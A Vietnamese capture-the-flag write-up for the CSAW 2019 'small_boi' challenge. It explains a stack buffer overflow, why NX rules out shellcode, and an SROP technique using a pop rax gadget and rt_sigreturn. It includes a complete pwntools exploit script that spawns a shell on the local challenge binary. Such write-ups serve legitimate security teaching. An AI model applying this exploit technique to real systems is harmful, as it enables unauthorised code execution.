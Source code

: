 # [CSAW-2019] small_boi
<p>Dòng 6, đọc 512 (0x200) byte vào buf có kích thước 32 byte.</p>

![alt text](/thanhlai/post/buffer_overflow/image/post5/image.png)

<p>Cơ chế NX đang bật -> Thực thi shellcode trên stack là không khả thi.</p>

![alt text](/thanhlai/post/buffer_overflow/image/post5/image-4.png)

<p>Liệt kê các gadgets quan trọng thì thấy rằng cả pop rdi và pop rsi đều không có. Tuy nhiên, vẫn còn lệnh syscall, pop rax -> Có thể sử dụng kỹ thuật SROP. Trong đó, pop rax dùng để đưa syscall number 15 (ứng với rt_sigreturn) vào thanh ghi rax, sau đó gọi syscall để kích hoạt cơ chế phục hồi context giả từ stack.</p>

![alt text](/thanhlai/post/buffer_overflow/image/post5/image-1.png)

<p>Thử tìm chuỗi "/bin/sh" thì thấy rằng đã có sẵn nên không cần thêm vào stack nữa -> Vậy đã đủ dữ liệu cho các thanh ghi sau khi thực thi syscall rt_sigreturn</p>

![alt text](/thanhlai/post/buffer_overflow/image/post5/image-2.png)

<p>Script exploit:</p>

```
from pwn import *

context.binary = './small_boi'
p = process('./small_boi')

pop_rax = 0x000000000040018a
syscall = 0x0000000000400185
binsh_addr = 0x4001ca  

frame = SigreturnFrame()
frame.rax = 59         
frame.rdi = binsh_addr 
frame.rsi = 0
frame.rdx = 0
frame.rip = syscall    


payload = flat(
    b'a' * 40,        
    pop_rax,
    15,                
    syscall,
    bytes(frame),
    b'/bin/sh\x00'      
)

p.sendline(payload)
p.interactive()
```

<p>Chạy script và lấy được shell.</p>

![alt text](/thanhlai/post/buffer_overflow/image/post5/image-3.png)